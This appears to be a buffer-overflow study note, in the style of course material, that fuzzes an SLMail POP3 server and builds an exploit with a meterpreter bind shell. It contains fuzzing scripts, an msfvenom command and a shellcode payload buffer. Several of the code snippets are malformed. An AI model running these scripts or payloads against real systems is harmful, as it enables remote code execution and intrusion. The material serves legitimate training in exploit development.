

# Buffer Overflows

There are three main ways of identifying flaws in applications

- If the source code of the application is available, then source code review is probably the easiest way to identify bugs.
- If the application is closed source, you can use reverse engineering techniques, or fuzzing, to find bugs.

## A look inside Stack while a simple app is running



## Fuzzing

- Fuzzing involves sending malformed data into application input and watching for unexpected crashes.
- An unexpected crash indicates that the application might not filter certain input correctly. This could lead to discovering an exploitable vulnerability.

### A Word About DEP and ASLR

- __DEP__ (Data Execution Prevention) is a set of hardware, and software, technologies that perform additional checks on memory, to help prevent malicious code from running on a system.
- The primary benefit of __DEP__ is to help prevent code execution from data pages, by raising an exception, when execution occurs.
- __ASLR__ (Address Space Layout Randomization) randomizes the base addresses of loaded applications, and DLLs, every time the Operating System is booted.

#### Interacting with the POP3 Protocol

  > if the protocol under examination was unknown to us, we would either need to look up the RFC of the protocol format, or learn it ourselves, using a tool like Wireshark.

- To reproduce the netcat connection usage performed earlier in the course using a Python script, our code would look similar to the following

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  print "\nSending vil buffer..."
  s.connect(('10.0.0.22',110))     #connect to IP, POP3 port
  data = s.recv(1024)     # receive banner
  print data     # print banner

  s.send('USER   test' +'\r\n')     # end username "test"
  data = s.recv(1024)     # receive reply
  print data     # print reply

  s.send('PASS test\r\n')     # send password "test"
  data = s.recv(1024)     # receive reply
  print data     # print reply

  s.close()     # close socket
  print "\nDone!"

except:
  print "Could not connect to POP3!”
```

- Taking this simple script and modifying it to fuzz the password field during the login process is easy. The resulting script would look like the following.

```python
#!/usr/bin/python
import socket

# Create an array of buffers, from 10 to 2000, with increments of 20.
buffer=["A"]
counter=100

while len(buffer) <= 30:
  buffer.append("A"*counter)
  counter=counter+200

for string in buffer:
  print "Fuzzing PASS with %s bytes" %len(string)
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.recv(1024)
  s.send('USER test\r\n')
  s.recv(1024)
  s.send('PASS ' + string + '\r\n')
  s.send('QUIT\r\n')
  s.close()
```

- Run this script against your SLMail instance, while attached to __Immunity Debugger__.
- The results of running this script shows that the __Extended Instruction Pointer (EIP)__ register has been overwritten with our input buffer of A’s (the hex equivalent of the letter A is \x41).
- This is of particular interest to us, as the EIP register also controls the execution flow of the application.
- This means that if we craft our exploit buffer carefully, we might be able to divert the execution of the program to a place of our choosing, such as a into the memory where we can introduce some reverse shell code, as part of our buffer.


## Check for bad characters

```Shell
>> python -c \
'print "A"*80 + "B"*4 + \
"x01x02x03x04x05x06x07x08x09x0ax0bx0cx0dx0ex0fx10" + \
"x11x12x13x14x15x16x17x18x19x1ax1bx1cx1dx1ex1fx20" + \
"x21x22x23x24x25x26x27x28x29x2ax2bx2cx2dx2ex2fx30" + \
"x31x32x33x34x35x36x37x38x39x3ax3bx3cx3dx3ex3fx40" + \
"x41x42x43x44x45x46x47x48x49x4ax4bx4cx4dx4ex4fx50" + \
"x51x52x53x54x55x56x57x58x59x5ax5bx5cx5dx5ex5fx60" + \
"x61x62x63x64x65x66x67x68x69x6ax6bx6cx6dx6ex6fx70" + \
"x71x72x73x74x75x76x77x78x79x7ax7bx7cx7dx7ex7fx80" + \
"x81x82x83x84x85x86x87x88x89x8ax8bx8cx8dx8ex8fx90" + \
"x91x92x93x94x95x96x97x98x99x9ax9bx9cx9dx9ex9fxa0" + \
"xa1xa2xa3xa4xa5xa6xa7xa8xa9xaaxabxacxadxaexafxb0" + \
"xb1xb2xb3xb4xb5xb6xb7xb8xb9xbaxbbxbcxbdxbexbfxc0" + \
"xc1xc2xc3xc4xc5xc6xc7xc8xc9xcaxcbxccxcdxcexcfxd0" + \
"xd1xd2xd3xd4xd5xd6xd7xd8xd9xdaxdbxdcxddxdexdfxe0" + \
"xe1xe2xe3xe4xe5xe6xe7xe8xe9xeaxebxecxedxeexefxf0" + \
"xf1xf2xf3xf4xf5xf6xf7xf8xf9xfaxfbxfcxfdxfexff"'
```

## Generate meterpreter bind-tcp payload

```Shell
>> msfvenom -p linux/x86/meterpreter/bind_tcp -b="0x00" -f python
```

```Python
# using output from last command we can create our full payload
python -c \
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
"BBBB"
'print "A"*80 + "B"*4 + "x90" * (400 - 137) + \
"\xba\x8a\x2a\xb0\xa4\xd9\xed\xd9\x74\x24\xf4\x5d\x31" + \
"\xc9\xb1\x1c\x31\x55\x14\x03\x55\x14\x83\xed\xfc\x68" + \
"\xdf\xda\xd9\x34\xb9\xa9\x25\x7d\xb9\xdd\x29\x7d\x33" + \
"\x3e\x4f\xfc\xa0\xc1\x60\x33\xa6\xf3\x5b\x3c\x44\xa0" + \
"\x18\x91\xe1\x45\x16\xf4\x46\x2f\xe5\x76\xf7\xda\xf1" + \
"\x22\x92\x18\x90\xcb\x32\x8a\xed\x2a\xd8\xba\xb6\xc6" + \
"\x7b\x9b\x85\x96\x13\x98\xd2\x82\x42\xc4\x84\xf8\x1c" + \
"\xf8\x38\xed\x80\x96\x28\x5c\x69\xee\xa8\x34\xef\xa8" + \
"\xe7\x48\x3e\xab\x48\x2e\x0c\xac\xf9\xed\x3e\xcb\x70" + \
"\xa0\x3a\xd9\x03\xd1\xf5\xed\xb3\xd6\x34\x6d\x34\x07" + \
"\x9d\xde\x3d\x7a\xa2\xe0\xa3"'
```

